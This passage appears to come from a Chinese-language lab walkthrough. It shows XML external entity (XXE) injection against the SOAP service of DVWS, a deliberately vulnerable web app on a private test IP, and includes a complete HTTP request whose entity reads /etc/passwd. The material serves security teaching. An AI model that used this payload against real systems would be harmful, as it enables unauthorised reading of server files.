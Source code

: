 ```bash
         <username xsi:type="xsd:string">geroet</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[![](assets/1706957905-abdfc55b59dda222e11d103c38ffb91d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202093832-c6492bca-c16b-1.png)  
SOAP 服务器用来解析该请求的 XML 库允许使用外部实体，因此我们可以利用它从 SOAP 服务中读取任意文件

```bash
POST /dvwsuserservice/ HTTP/1.1
Host: 192.168.204.160
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4164.0 Safari/537.36 autochrome/red
Connection: close
SOAPAction: Username
Content-Type: text/xml;charset=UTF-8
Content-Length: 579

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY exploit SYSTEM "file:///etc/passwd"> ]>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">&exploit;</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[![](assets/1706957905-7691d5cbcf7306ad5869e45e71060931.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202093903-d859fbc8-c16b-1.png)
